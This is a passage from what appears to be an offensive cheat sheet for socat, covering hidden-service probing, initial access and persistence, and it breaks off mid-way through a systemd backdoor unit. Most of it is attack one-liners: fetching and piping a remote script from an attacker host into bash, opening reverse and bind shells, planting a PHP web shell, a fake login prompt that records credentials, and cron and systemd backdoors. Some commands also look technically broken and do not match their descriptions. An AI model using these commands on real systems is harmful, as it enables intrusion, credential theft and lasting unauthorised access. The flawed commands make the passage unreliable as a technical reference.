     ```
5. **Detection of Hidden Services**: Detects hidden services by probing specific ports and logging any responses.
    ```bash
    socat - TCP:<target_ip>:<target_port> SYSTEM:"echo '<target_port> detected on <target_ip>' >> hidden_services.txt"
    ```

#### Initial Access

SoCat can be used to gain initial access to a target system through exploitation of vulnerabilities or by establishing covert channels.

1. **Command Injection Exploitation**: Executes a command injection vulnerability to download and execute a malicious script.
    ```bash
    socat - TCP:<target_ip>:<target_port> SYSTEM:"curl http://<attack_ip>:<attack_port>/exploit.sh | bash"
    ```
2. **Exploiting Misconfigured Services**: Exploits a misconfigured service to open a shell on the target system.
    ```bash
    socat - TCP:<target_ip>:<target_port> EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
    ```
3. **File Inclusion Vulnerability Exploitation**: Uploads a PHP web shell via a file inclusion vulnerability.
    ```bash
    socat - TCP:<target_ip>:<target_port> SYSTEM:"echo '<?php system(\$_GET[\'cmd\']); ?>' > /var/www/html/shell.php"
    ```
4. **Client-Side Exploit Delivery**: Hosts a client-side exploit and delivers it to a vulnerable target.
    ```bash
    socat TCP-LISTEN:<attack_port>,reuseaddr,fork SYSTEM:"curl http://<attack_ip>:<attack_port>/exploit.js"
    ```
5. **Credential Harvesting via Social Engineering**: Sets up a social engineering trap to harvest user credentials.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork SYSTEM:"echo 'Please enter your credentials:' && read -p 'Username: ' user && read -sp 'Password: ' pass && echo 'Credentials captured: $user:$pass' >> credentials.txt"
    ```

#### Persistence

SoCat can help maintain access to a compromised system by establishing persistent backdoors, scheduled tasks, and other techniques.

1. **Cron Job for Persistent Access**: Sets up a cron job that regularly connects back to the attacker's machine.
    ```bash
    socat TCP:<attack_ip>:<attack_port> EXEC:/bin/bash,pty,stderr,setsid,sigint,sane | crontab -
    ```
2. **Service-Based Persistence**: Configures a systemd service to maintain persistent access via SoCat.
    ```bash
    echo "[Unit]
    Description=SoCat Persistent Backdoor
